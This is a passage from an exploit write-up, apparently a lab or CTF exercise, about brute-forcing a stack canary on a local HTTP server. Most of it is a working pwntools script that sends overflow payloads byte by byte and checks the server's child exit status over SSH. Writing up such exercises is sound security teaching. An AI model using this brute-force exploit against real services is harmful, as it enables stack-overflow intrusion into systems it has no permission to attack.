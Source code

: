 After playing around a bit more in gdb and modifying the proof of exploit, I was able to determine that we can begin to overflow the canary after sending `4104` bytes, and we know that the next byte should be a null.  From there we can begin our bruteforce attempt:


NOTE: pwntools can get noisy, so if you want to disable the normal output, add `PWNLIB_SILENT=1` as an environment variable.
```python
from pwn import *
import time
import paramiko
import binascii

if __name__ == '__main__':
    server = "localhost"
    username = "test"
    password = "test"
    server_log = "ps_server.log"

    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    ssh.connect(server, username=username, password=password)

    canary = b'\x00'

    while len(canary) != 8:
        failed = True
        for i in range(256):
            payload1 = "Content-Length: 4096\r\n\r\n{}".format('\x00' * 0xf00).encode()
            payload2 = b'\x00' * 264 + canary + bytes([i])

            p = remote(server, 8080)

            p.send(payload1)

            # If we don't sleep here, all the data will be sent at once and the server will receive over 0x1000 bytes in
            # on go (which we don't want!)
            time.sleep(0.15)

            p.send(payload2)
            p.recvuntil(b"\r\n\r\n").decode()
            r = p.recvall()
            p.close()

            time.sleep(0.15)

            # read the child exit status from the remote log
            ssh_stdin, ssh_stdout, ssh_stderr = ssh.exec_command("tail -n 1 {}".format(server_log))
            result = ssh_stdout.readline()

            # If we have a successful byte, print the result and move to the next byte
            if "status 0" in result:
                canary += bytes([i])
                print(binascii.hexlify(canary).decode())
                failed = False
                break

        # Just in case we have a race condition with writing to the log file, we need to detect if we got through a
        # byte without finding its value so we can rewind and try again
        if failed:
            print("oh no!")
            canary = canary[:-1]

```
